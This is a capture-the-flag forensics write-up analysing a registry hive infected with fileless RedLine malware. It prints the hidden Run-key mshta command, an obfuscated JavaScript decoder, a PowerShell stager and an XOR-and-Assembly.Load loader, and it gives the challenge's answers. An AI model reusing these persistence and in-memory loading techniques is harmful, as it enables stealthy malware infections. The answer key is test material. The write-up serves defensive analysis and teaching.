







# Intro
Challenge Link: https://cyberdefenders.org/blueteam-ctf-challenges/118#tab=questions
```
A security breach occurred on a corporate network, and a device may have been infected with fileless malware.
This malware operates entirely in memory, making it difficult to detect and analyze.

The security team has extracted the NTUSER.DAT registry hive from the affected device.
Your task is to analyze this file and identify any malicious activities associated with the fileless malware.
```

## Analyzing the registry file
From the description, we are dealing with a fileless malware, and we are given a registry hive. There are multiple ways to analyze this registry file, such as **comparing it with a clean registry snapshot** **[[RegShot](https://sourceforge.net/projects/regshot/)]** or **looking for suspicious locations where malware might exist**, like the `Run` key. **[[1](https://www.minitool.com/news/check-registry-for-malware-and-remove-it.html)]**

Let's load the registry hive



If we tried to check the `Run` registry key, we encountered the following error and we won't find any suspicious value.





It's a trick that the malware authors use to hide the registry value. They employ the NtSetValueKey native API to create a hidden (null-terminated) registry key, such as `\\x00\\x00SOFTWARE\\`. This technique allows them to obscure the presence of the key and evade detection by the DFIR investigation.

We can use various tools to read this registry value. **[[regipy](https://github.com/mkorman90/regipy)]**

```python
from regipy.registry import RegistryHive
reg = RegistryHive('NTUSER.DAT')

Run_Val = reg.get_key('Software').get_subkey('Microsoft').get_subkey('Windows').get_subkey('CurrentVersion').get_subkey('Run').get_values(as_json=True)

print(Run_Val)
```
```
[
   [
    Value(
        name="OneDrive",
        value='"C:\\Users\\device\\AppData\\Local\\Microsoft\\OneDrive\\OneDrive.exe" /background',
        value_type="REG_SZ",
        is_corrupted=False,
    ),
    Value(
        name="\x00\x00SOFTWARE\\",
        value="\"C:\\Windows\\System32\\cmd.exe\" /C start mshta.exe 'javascript:var d6bRt=new ActiveXObject(WScript.shell);var o2eXl=d6bRt.RegRead(HKCU\\\\software\\\\PDFViewer\\\\Settings);eval(o2eXl);'",
        value_type="REG_SZ",
        is_corrupted=False,
    ),
]

]
```

## First/Second/Third Stage
Now, everything has become clear. We can clearly see the null-terminated trick employed and the malicious command executed each time the user logs in, ensuring persistence.

```
"C:\Windows\System32\cmd.exe" /C start mshta.exe 'javascript:var d6bRt=new ActiveXObject(WScript.shell);var o2eXl=d6bRt.RegRead(HKCU\\software\\PDFViewer\\Settings);eval(o2eXl);'
```

The command `cmd.exe /C start mshta.exe` is used to launch a new window and execute the program mshta.exe. In Windows, `mshta.exe` is responsible for running HTML applications. Finally, the executed `JS` program carries out additional actions as part of the malware's functionality.

The `JS` code appears to attempt to access the value in `HKCU\software\PDFViewer\Settings` and execute it using the **eval** function.


```python
# Q1: To determine how the fileless malware was executed on the device, we need to determine which trusted Windows process it hijacked. What is the name of the Windows-native binary used to run malicious code? mshta.exe
# Q2: Understanding how the malware maintains its presence in the system without a file is crucial for detecting and eradicating the infection. What is the value name of the register string key that contains the malicious script? PDFViewer
```

```python
from regipy.registry import RegistryHive
reg = RegistryHive('NTUSER.DAT')

Run_Val = reg.get_key('Software').get_subkey('PDFViewer').get_value('Settings')

print(Run_Val)
```

**_NOTE:_**  It's obfuscated more than that

```javascript
k2px="5a1634090a3...snippet...436b";
YZDwG5="";
for(Y5JITecq=0;Y5JITecq<k2px.length;Y5JITecq+=2)
   YZDwG5+=String.fromCharCode(parseInt(k2px.substr(Y5JITecq,2),16));
yWRHh23aHDjKD="";
for(Sjuh5ZeqqzXyKS=ofpNn1wsYC7AZaiDa=0; ofpNn1wsYC7AZaiDa<YZDwG5.length; ofpNn1wsYC7AZaiDa++) {
   yWRHh23aHDjKD+=String.fromCharCode(YZDwG5.substr(ofpNn1wsYC7AZaiDa,1).charCodeAt()^gsHFf3JWfO.substr(Sjuh5ZeqqzXyKS,1).charCodeAt());Sjuh5ZeqqzXyKS=(Sjuh5ZeqqzXyKS<gsHFf3JWfO.length-1)?Sjuh5ZeqqzXyKS+1:0;
}
eval(yWRHh23aHDjKD);
```

```python
# Q3: To fully comprehend the attacker's approach in concealing the malware, it is imperative to determine the encryption technique and the key value utilized for decrypting the second stage. What is the exact key value required for decrypting the second stage of the malware?PzVmNVxNG0AxFv05k5PVgdNxlUynMPH9txZ4PqiE5vcTwLvxa
```

replace the `eval` with `console.log` and let's move to the second stage

```powershell
lbdDgcxfyGktwpPHhOevXr1G="RNHvYHQDCzWuwah82O9z";zdVykkfDJcJs6jCeOusxGgnM="TjSGzh3ddexcFTXo1TdjIZV2y0";ydAac6LrWckydmIXdfVQEa6="7QL1FbjZj4y6zJxMCIwhNiyFLK";brpSxkAkAGYAFMe1Q5F="F0b6t8WqXGbvrlQcc95Y9gT";YEBwu5vvRmE5KYfHduYhsNiu="73dKojlgx0FXzMH6TX8HHiaf4JKzZ7YD6F3q0";vpdFstmgBTrOHB9fZZP6iUNFv="UzTk77YC0p1zaZKg3NxrvLxtNsf7aRM4CQe4";nSDruMMuSsiqefQUkCIXC4Rg2="Sz8VKnt5KXMF4HINTuhZxtOgI85j6gAmgZgMR11XT9YF";jksJJxRsO0nn3oXoMlHkVMx="vDzjG41OyHAQeYTH7OBsvMsS0DnDRG4q1g";
try {
  moveTo(-100,-100);
  resizeTo(0,0);
  z5P=new ActiveXObject("WScript.Shell");
  (z5P.Environment("Process"))
  ("fagyo")="iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String(
    'JHR...snippet...dXSBAKCkpKQ=='
  )))";
  uG0GC5=z5P.Run("C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe iex $env:fagyo",0,1);
}
catch(e){}
close();
```



```powershell
$tiodsf2Gdefdaj= Get-ItemProperty -Path "HKCU:\Software\nsem" -Name "zorsuhg" |
Select-Object -ExpandProperty "zorsuhg";
$pqiekvf = [byte[]]$tiodsf2Gdefdaj;$tuievkd23kdi0 = [byte[]](0x61,0x31,0x35,0x38,0x30,0x37,0x64,0x66,0x65,0x33,0x34,0x37,0x65,0x63,0x61,0x61,0x35,0x37,0x62,0x39,0x65,0x32,0x33,0x32,0x61,0x36,0x31,0x31,0x64,0x65,0x30,0x64,0x39,0x36,0x66,0x32,0x64,0x61,0x63,0x36,0x65,0x35,0x31,0x63,0x34,0x39,0x31,0x32,0x31,0x37,0x62,0x35,0x64,0x36);$eBy = @();
for ($i = 0; $i -lt $pqiekvf.Length; $i++) {
$eBy += $pqiekvf[$i] -bxor $tuievkd23kdi0[$i % $tuievkd23kdi0.Length]
}$sc32=[byte[]]$eBy
$bdwrQYis = [System.Convert]::ToBase64String($sc32);
$PEQVDqyts = [System.Convert]::FromBase64String($bdwrQYis);
$assembly = [System.Reflection.Assembly]::Load($PEQVDqyts)
$lqTvcqdoppjds = 
 $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').
   GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')
$lqTvcqdoppjds.Invoke($null, (, [string[]] @()))
```

It get the binary value that is stored in `HKCU:\Software\nsem\zorsuhg` and decrypt it by xoring it with the key `tuievkd23kdi0`



```python
# Q4: To fully understand the scope of the fileless malware's payload, we need to find where it is stored. What is the value name of the registry string key that contains the encrypted executable? zorsuhg
# Q5: Decrypting the malware's executable will allow us to analyze its behavior. What is the key value used to decrypt the executable?a15807dfe347ecaa57b9e232a611de0d96f2dac6e51c491217b5d6
```

```python
from regipy.registry import RegistryHive
from pwn import xor
reg = RegistryHive('NTUSER.DAT')

enc_bin = reg.get_key('Software').get_subkey('nsem').get_value('zorsuhg')
key = bytearray(b"a15807dfe347ecaa57b9e232a611de0d96f2dac6e51c491217b5d6")
binary = xor(key, enc_bin)

with open('binary', 'wb') as f:
    f.write(binary)
```



```python
# Q6: Comparing the hash of the decrypted executable against known threats can confirm its identity and inform our response strategy. What is the MD5 hash of the decrypted executable?F07E946C8273176316CF6D97DC780BD7
# Q7: Identifying the malware family can provide context about the threat actors and their methodologies. What is the name of the malware family associated with this attack? redline
```

Loading it in the `dnspy` you can find the key easily



```python
# Q8: Understanding all decryption keys used by the malware can aid in revealing the full scope of the threat. What is the key used to decrypt the second stage of the executable? Bounxcwkdkigednzzwbux
```
